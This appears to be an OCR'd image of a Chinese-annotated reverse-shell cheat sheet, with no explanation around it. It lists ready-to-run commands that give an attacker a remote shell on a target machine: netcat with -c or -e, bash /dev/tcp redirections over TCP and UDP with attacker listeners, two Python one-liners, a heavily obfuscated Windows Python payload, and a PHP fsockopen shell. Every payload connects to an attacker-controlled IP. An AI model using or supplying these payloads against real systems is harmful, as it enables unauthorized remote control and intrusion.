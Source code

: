 ```bash
2.目标机器执行
nc 192.168.0.111 3333 -c /bin/bash    # Linux
nc 192.168.0.111 -e c:\\WINDOWS\system32\cmd.exe    # win



###### 如果目标主机没有nc，获取反向shell
###### 或者假如nc不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell
# bash反弹shell
/bin/bash -c bash -i >& /dev/tcp/192.168.41.13/4444 0>&1

# bash反弹shell(TCP)
目标机器： bash -i >& /dev/tcp/192.168.41.133/4444 0>&1
攻击方： nc -lvvp 4444

# bash反弹shell(UDP)
目标机器： bash -i >& /dev/tcp/192.168.41.133/4444 0>&1
攻击方监听： nc -u -lvp 4444




# python反向shell
// 方法一
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 
// 方法二
$ export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
# windows python反弹shell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.11.0.37', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"



# php反向shell
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'



```